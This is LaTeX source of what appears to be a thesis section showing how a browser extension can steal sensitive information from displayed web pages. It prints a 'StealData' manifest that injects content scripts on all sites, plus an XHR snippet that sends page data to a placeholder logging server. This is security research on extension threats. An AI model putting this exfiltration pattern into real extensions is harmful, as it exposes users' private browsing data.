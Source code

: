 \documentclass[article,colorback,accentcolor=tud9c,type=bsc]{tudthesis}
\let\stdsubsubsection\subsubsection
\renewcommand\subsubsection{\newpage\stdsubsubsection}
\begin{document}
	In the following section we show that an extension is an efficient tool to steal sensitive information from displayed web pages. We implemented several content scripts that steal information from different occurrences and with different strategies. Once installed, our extension read the displayed web pages, extracted valuable information, and sent these to an remote server. For that purpose it needs the following manifest file:
	
	\begin{lstlisting}
	{
"manifest_version": 2,
"name": "StealData",
"description": 
"Extension that steals data from the currently visible web page. 
Sends data to http://localhost:3000/log",
"version": "1.0",
"content_scripts" : [
  { 
    "matches": [ "http://*/*", "https://*/*" ],
    "js" : ["jquery.js", "content.js"] 
  }
]
	}
	\end{lstlisting}
	
	Our manifest declares besides the necessary extension information only two content scripts which are executed in every web page. The first content script \texttt{jquery.js} is an instance of the popular JavaScript library \textit{jQuery} \footnote{jQuery homepage \url{https://jquery.com/}} which we use to simplify the interaction with the web page's DOM. The second content script \texttt{content.js} is one of our own implementations that steals sensitive information.
	
	\subsubsection{Send Data}
	
	If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %
	
	\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
	\end{lstlisting}
	
\end{document}
